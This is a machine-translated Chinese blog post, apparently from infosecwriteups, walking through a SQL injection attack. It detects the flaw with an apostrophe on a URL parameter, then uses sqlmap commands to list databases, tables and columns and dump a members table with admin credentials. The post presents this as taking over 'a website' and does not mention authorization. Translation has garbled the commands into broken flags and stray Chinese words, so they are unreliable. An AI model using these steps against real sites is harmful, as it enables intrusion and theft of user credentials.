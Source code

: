 # 我如何获得网站的管理员权限？

> 原文：<https://infosecwriteups.com/how-i-gained-admin-level-access-of-a-website-3b052d69efd5?source=collection_archive---------2----------------------->

我已经有一段时间没有尝试获得任何网站的管理员权限了。今天，经过几天的闲逛和看电视连续剧，我想是时候回到最佳状态了。

要获得任何网站的管理员级别的访问权限，唯一的方法就是进行网络钓鱼攻击、键盘记录攻击或者 SQL 攻击。因此，我试图对一个网站进行 SQL 注入攻击，以获得完全的管理权限，天哪，我成功了吗？

# 让我们开始吧！

我开始攻击网站[example.com/list.php?id=1](http://www.example.com/list.php?id=1)，因为它有 id 参数，它更容易受到 SQL 注入攻击。为了检查网站是否容易受到 SQL 攻击，我替换了参数中的数字“1 ”,并在它的位置插入了一个撇号“”。当网站完成加载时，显示了一个特定的错误。

![](img/fd09ff1594a5a5fc3137a9ee296a5ec1.png)

SQL 错误消息

现在，当我从服务器返回这个错误时，我知道服务器很有可能容易受到 SQL 攻击。于是，我打开了 sqlmap 进行 SQL 攻击。

# 攻击开始了！

因此，我开始使用 sqlmap 检查 SQL 漏洞是否可被利用，然后开始发起攻击

> http://example.com/list.php?artist=1--无强制转换- -dbms=mysql - - dbs

我看到了下面的输出。

![](img/07890504fadcebeee3a97bdc121c4cce.png)

数据库

我一收到上面的消息，就知道自己中了大奖。我继续进行我的破解，试图从第一个数据库中获取信息。

> http://example.com/list.php?artist=1--无强制转换--DBMS = MySQL-D da * * * * * * AK--表格

我看到了下面的输出。

![](img/0f19b8fcd31d051e695528f7f61a4ad4.png)

表格详细信息

现在，第一眼看上去，我没有看到任何有趣的东西，因为大部分的东西都可以在网站上找到。然后我的目光就落在了表格的“会员”一栏上。我继续进行攻击，找出成员表中列的细节。

> sqlmap-u[http://example.com/list.php?artist=1](http://testphp.vulnweb.com/artists.php?artist=1)--无强制转换--DBMS = MySQL-D da * * * * * * AK--T 成员--列

我得到了下面的输出。

![](img/7869dd4072a1fb6d35d3a78289e0ba91.png)

列表格

然后，我继续查找成员表中显示的详细信息。

> sqlmap-u[http://example.com/list.php?artist=1](http://testphp.vulnweb.com/artists.php?artist=1)--no-cast--DBMS = MySQL-D da * * * * * * AK-T member-C member _ email，member_fullname，member_password，member_user - -dump

当我输入上面的命令时，我得到了管理员帐户的以下详细信息，该帐户后来提供了对整个网站及其内容的控制。

![](img/42d6f3835a3b2c6ea1bd17875c07993c.png)

管理员凭据

# 道德的

SQL 注入是一种非常危险的攻击，如果在网站上进行，可能会非常危险，因为它为攻击者提供了管理员级别的访问权限。这使得黑客能够操纵网站的内容，从而能够破坏网站或将其用于网络钓鱼目的，甚至根据 hid 的需要在网站上启用不同的脚本。

如果你喜欢，请鼓掌让我们合作吧。获取、设置、破解！

网址:【aditya12anand.com】T2|捐赠:【paypal.me/aditya12anand】T4

电报:[https://t.me/aditya12anand](https://t.me/aditya12anand)

推特:[twitter.com/aditya12anand](https://twitter.com/aditya12anand?source=post_page---------------------------)

领英:[linkedin.com/in/aditya12anand/](https://www.linkedin.com/in/aditya12anand/?source=post_page---------------------------)

电子邮件:aditya12anand@protonmail.com